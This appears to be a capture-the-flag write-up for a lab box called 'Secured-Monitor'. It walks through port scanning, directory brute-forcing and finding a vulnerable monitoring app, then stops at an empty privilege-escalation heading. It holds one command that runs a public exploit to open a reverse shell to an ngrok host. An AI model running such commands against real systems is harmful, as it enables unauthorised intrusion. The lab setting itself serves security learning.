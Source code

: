 ## Welcome to Secured-Monitor Solution

After pasting the 3 flags you had got the IP of the box i.e. `100.27.12.78`

### Recon

Lets get started with nmap as always and we get port 80 open thats great!

![Port Scan](https://i.ibb.co/6RvyYyD/portscan.jpg)

Now lets go to `http://100.27.12.78/` we see a default ubuntu page!

![Default Ubuntu Page](https://i.ibb.co/DLbXPPq/default-ubuntu.jpg)

We have a /robots.txt but thats useless.

Dirbuster it 

![Dirburst](https://i.ibb.co/5spR4MY/dirblast.jpg)

and we get a juicy file at `http://100.27.12.78/monitor/`

![Monitor Page](https://i.ibb.co/jMbv3JP/monitor1.jpg)

At the end we see there is a version `1.7.6m` and a login page!

The version that made me trigger that its not custom made lets google about it!

We find something interesting!

![ExploitDB](https://i.ibb.co/rb7HnWP/exploitdb.jpg)

lets run it :3 with netcat and ngrok (incase if you dont have)

### Exploitation

Run the python exploit which we have got from `https://www.exploit-db.com/exploits/48980`

##Command to run

`python expl.py http://100.27.12.78/monitor/ 2.tcp.ngrok.io 10090`

In the netcat we get a reverse shell :3

![Rev SHell](https://i.ibb.co/mzJVYnv/reverse-shell.jpg)

On crawling around the server we find that the `root.txt` but we cannot read it as we are `www-data`


# Privelege Escalation








